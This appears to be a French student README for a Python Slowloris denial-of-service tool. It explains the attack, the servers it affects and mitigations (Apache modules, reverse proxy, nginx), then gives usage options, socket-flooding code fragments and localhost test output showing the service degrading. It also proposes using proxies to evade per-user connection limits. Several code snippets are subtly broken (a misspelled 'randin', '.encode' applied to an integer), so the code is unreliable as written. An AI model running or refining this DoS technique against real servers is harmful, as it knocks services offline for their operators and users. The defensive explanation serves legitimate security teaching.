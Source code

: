 # Python pour la securite
  - ### [1. Introduction](#1-Introduction)
  - ### [2. Fonctionnement](#2-Fonctionnement)
  - ### [3. Resultat](#2-Resultat)
  - ### [4. Difficultees rencontrees](#4-Difficultees-rencontrees)
  - ### [5. Ameliorations](#5-Ameliorations)
  - ### [6. Conclustion](#6-Conclusion)

---
## 1. Introduction

 L'attaque slow loris permet de faire un ddos sur un serveur en se servant que d'une seule machine. 
 Slowloris essaie de garder le maximum de connexions ouvertes avec le webserver cible et essaie de les garder ouvertes aussi longtemps que possible. 
 Dès que le slowloris a ouvert une connection il va garder la garder ouverte en envoyant des requêtes incomplètes qu'il va compléter lentement au fur et à mesure mais ne les finira jamais. 
 Les serveurs affectés verront leur nombre maximum de connections atteint et peuvent refuser les nouvelles connections d'utilisateurs.
Les serveurs majoritairement touchés par l'attaque slowloris sont:
- Apache 1.x and 2.x
- dhttpd
- Flask

Il existe des modules pour apache qui permetent de réduire la chance d'une attaque slowloris tel que: 
- mod_limitipconn
- mod_qos, mod_evasive
- mod security
- mod_noloris
- mod_antiloris

Il existe d'autres méthodes pour se protéger tel qu'installer un:
- reverse proxy
- firewall
- load balancer
- content switches

Si aucune de ces solutions n'est envisageable il est toujours possible de placer son webserver derrière un nginx ou lighthttpd qui ne sont pas affectés par cette attaque.

---
## 2. Fonctionnement
Afin de faire fonctionner ce programme, il est necessaire d'installer certaines dependances. Les commandes a executer pour avoir un environnement d'execution sont les suivantes :
 * `virtualenv env`
 * `source env/bin/activate`
 * `pip install -r requirements.txt`

 Ensuite il est possible de choisir certaines options:
 - a: Host to perform attack on, default localhost
 - p: Port of the server, default = 80
 - s: Max socket to use
 - d: Debug mode


 Dans un premier temps, il est necessaire de recuperer le type de serveur que l'on souhaite attaquer : 
 * Par exemple, un serveur apache 1.x/2.x permettra une attaque optimal.
 * A contrario, attaquer un WebServeur tournant avec le framework NodeJS a partir de la version 8 est inutile

 Pour recuper le type de serveur, on envoie une requete get : </br>
 * `sock.send("GET / HTTP/1.1\r\n\r\n".encode("ascii"))`</br>

Puis on analyse le retour </br>
*  `HTTP/1.1 400 Bad Request
Date: Wed, 10 Jul 2019 16:18:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1
`

Pour l'initialisation des sockets on envoie trois requêtes:
```Python
s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000).encode("utf-8"))
s.send("User-Agent: {}\r\n".format(ua.USER_AGENT[random.randin(0,29)]).encode("utf-8"))
s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5".encode("utf-8"))
```
Dans l'ordre:
- La première initialise la connection
- La deuxième envoie le user agent utilisé choisi aléatoirement dans la pool des user agents.
- La troisième dit quelles sont les langues acceptées.

-> A l'initialisation le slowloris va essayer d'initier autant de connections que l'on a demandé.

Il va ensuite les garder en vie en les complétant toutes les 15 secondes avec:
```Python
s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
```
Il va ensuite essayer à nouveau d'ouvrir des connections jusqu'à atteindre la limite que l'on a fixé.
 ```Python
 for _ in range(self.target_info.sockets_number - len(self.sockets_list)):
    try:
        s = self.init_socks()
        if s:
            self.sockets_list.append(s)
```
Par la suite le slowloris va calculer la latence en faisant une requête dans un thread à part.

```Python
response = requests.get(self.url).elapsed.total_seconds()
```
La request fait un get sur l'host rentree par l'utilisateur et recupere le temps entre l'envoie et la reponse de la requete.


---

## 3. Resultat
Les resultat ci dessous ont ete effectue sur un serveur Apache avec la configuration initiale.</br>
Le programme fut lance avec la commande suivante : `python src/main.py -a 127.0.0.1 -s 1000`


Dans un premier temps la console nous affiche que l'on se trouvre sur un seveur Apache, ce qui est parfait pour notre attaque : 
> `[127.0.0.1] server running with Apache, best configuartion for this attack`

Dans un second temps, on affiche la latence initial :
> `[Latency] -- 0.002142`

On remarque donc que le temps de latence est relativement faible. </br></br>
Ensuite on initialise le maximum de socket 
> `279 connections 1000 initialised`

On remarque ici que l'on a reussi a initialiser seulement 279 sockets sur les 1000 prevu, on essaie maintenant de les garder ouvertes le plus longtemps possible.

Apres 15 secondes, on essaie d'en recreer afin d'atteindre les 1000
> `try recreating sockets`

Apres 5 minutes, on peut voir que l'on a 408 sockets qui sont ouvertes
> ` 408 connections 1000 initialised `

On remarque aussi une latence de 15 secondes, preuve que le deni de service fonctionne.
> `[Latency] -- 15.80608   `

Apres 10 minutes, on stop le programme, on peut donc voir une latence moyenne de 14.7 secondes.
> `Average latency = 14.702567199999999`


---


## 4. Difficultees rencontrees

La principale difficultees fut d'ordre materiel, en essayant l'attaque sur un serveur distant, la box internet ma "banni", il etait impossible d'acceder a aucun site web en dehors, impossible d'utiliser un dns.

La seconde difficultee fut de comprendre que les serveur nodes n'etaient pas affectees. Le programme semblait fonctionel mais aucun ralentissement ne fut observé. Ensuite installer un serveur apache est un defi de taille.

Hormis cela, aucune difficultée majeures ne fut rencontrées.


## 5. Ameliorations
Les améliorations possibles sont nombreuses:
- Détection automatique du serveur et optimisation des paramètres.
- Détection automatique du timeout serveur pour les requêtes.
- Détection du nombre de connection maximum du serveur pour pouvoir choisir le niveau de ddos que l'on veut (un peu, beaucoup, moyen)
- Utilisation de proxy pour permettre d'ouvrir un plus grand nombre de connections quand il y a un nombre limité par utilisateur.

## 6. Conclusion
>L'attaque du slowloris est une attaque très intéressante si jamais le serveur web est vulnérable à cette attaque car elle permet à un seul ordinateur de facilement ddos un serveur.
Cependant il s'avère qui est facile de se protéger face à ses attaques en implémentant quelques règles: nombres de socket par utilisateur limités, firewall, reverse proxy, etc.

